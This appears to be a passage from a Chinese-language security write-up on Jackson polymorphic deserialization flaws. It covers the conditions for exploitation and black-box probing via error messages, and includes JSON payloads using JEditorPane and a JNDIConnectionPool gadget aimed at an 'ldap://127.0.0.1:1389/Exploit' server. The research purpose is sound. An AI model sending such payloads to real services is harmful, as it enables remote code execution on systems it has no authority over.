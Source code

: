             String json="{\"age\":10,\"name\":\"bbb\",\"sex\":{\"sex\":1},\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";  
      
            //String json="{\"age\":10,\"name\":\"l1nk3r\",\"aa\":[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1389/Exploit\"}]}";  
            //People p2 = mapper.readValue(json, People.class);  
            //String json = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1389/Exploit\"}]";  
            People p2 = mapper.readValue(json,People.class);  
            //Object o2 = mapper.readValue(json,Object.class);  
            System.out.println(p2);  
        }  
    }  
    

网络上面给出的样例更多是`Object o2 =
mapper.readValue(json,Object.class)`，可以直接读array，所以没有报错，而我们直接拿array的数据基本都是报错的。知道这个点之后，我们后面就可以想想如何判断了。

### 存在条件

漏洞存在的条件，引用自[2]和[6]

    
    
    在设置为下面三种方式时，可以触发反序列化:  
    enableDefaultTyping()  
    @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)  
    @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)  
    
    
    
    1.Accepts JSON content sent by untrusted client (composed manually or by code you did not write and have no visibility or control over) — meaning that you can not constrain JSON itself that is being sent  
    2.Has at least one specific “gadget” class to exploit in the Java classpath: and specifically class from these that works with Jackson (most gadgets only work with specific library or libraries — most commonly reported ones for example only work with JDK serialization)  
    3.Enable polymorphic type handling for properties with nominal type of java.lang.Object (or one of small number of “permissive” tag interfaces; java.util.Serializable, java.util.Comparable)  
    4.Use version of Jackson that does not (yet) block “gadget” class in question (set of published exploits grows over time so it is a race between exploits and patches)  
    

特别注意第3点，需要type为java.lang.Object，这也是为什么样例里面为Object.class，以及aa为Object aa的原因。

这些是必要条件，而我们实际黑盒测试时，并不能知道全部的条件，所以使用代码进行判断。

## 判断

在应用会返回错误信息的情况下，我们可以根据错误信息来获取相应的信息。如果没有，那就看运气盲测了。

使用不存在的property来获取property信息，可以看到只有sex这个property

    
    
    String json="{\"age\":10,\"name\":\"test\",\"sex\":{\"sex\":1,\"aa\":2},\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";  
      